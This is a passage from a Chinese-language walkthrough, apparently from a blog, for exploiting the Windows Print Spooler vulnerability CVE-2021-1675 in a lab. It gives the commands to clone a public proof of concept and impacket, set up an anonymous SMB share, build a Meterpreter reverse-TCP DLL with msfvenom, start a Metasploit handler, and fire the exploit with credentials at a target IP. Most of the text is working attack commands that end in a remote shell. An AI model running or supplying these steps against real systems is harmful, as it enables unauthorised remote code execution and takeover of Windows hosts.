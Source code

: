 source 文件夹/bin/activate

进入后我们去github下载poc安装`  
`

`git clone https://github.com/cube0x0/CVE-2021-1675.git git clone
https://github.com/cube0x0/impacket`

首先要下载poc impacket模块然后安装

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130352.png)

因为我们使用的是虚拟环境所以我们可以直接安装安装完以后切换到poc处就可以了

source 文件夹/bin/activate python setup.py install python CVE-2021-1675.py -h  

#### 配置smb服务器

`[global] workgroup = workgroup server string = test netbios name = MZ
security = user map to guest = Bad User smb ports = 445 log file =
/var/log/samba/log.%m max log size = 5 min protocol = SMB2`

`[smb] comment = Samba browseable = yes writeable = yes public = yes path =
/tmp/ read only = no guest ok = yes`

#### 按照这个配置以后就可以使用impacket-smbserver 文件名、目录、开启服务器，如图

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130403.png)

#### 生成dll和启动msf

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.189.146
LPORT=4444 -f dll -o /tmp/rever.dll msfconsole use exploit/multi/handler set
payload windows/x64/meterpreter/reverse_tcp exploit`  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130404.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130405.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130406.png)

#### 利用漏洞

`python CVE-2021-1675.py demonba.xxx/yuce:Hello7p@192.168.189.145
'\\192.168.189.146\smb\rever.dll'`  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130407.png)

如果出错则需要安装smb1在windows2019上出错代码，下图

![]()

可以现在2019连接smb服务器出现这种报错

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210819130408.png)
